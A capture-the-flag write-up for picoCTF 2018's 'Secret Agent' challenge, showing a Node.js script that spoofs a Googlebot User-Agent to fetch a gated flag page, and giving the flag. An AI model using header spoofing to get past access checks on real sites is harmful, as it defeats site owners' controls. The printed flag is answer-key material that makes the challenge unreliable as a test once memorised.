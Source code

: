 # Secret Agent

**Points:** 250

**Description**
> Here's a little website that hasn't fully been finished. But I heard google gets all your info anyway. `http://2018shell1.picoctf.com:46162` ([link](http://2018shell1.picoctf.com:46162))

**Hints**
> How can your browser pretend to be something else?

## Solution

When we visit the webpage and click the "Flag" button, we get the error that we are not google, along with our user agent. It is referencing Google's webcrawler. If we switch our user agent to `Googlebot` and request `/flag`, we will be able to see that it returns the flag.

```js
const fetch = require("node-fetch");
fetch("http://2018shell1.picoctf.com:46162/flag", {
    headers: {
        "User-Agent": "Googlebot"
    }
}).then(r => r.text()).then(text => {
    console.log(text.match(/picoCTF{(.*)}/)[0]);
});
```

Our flag is `picoCTF{s3cr3t_ag3nt_m4n_ac87e6a7}`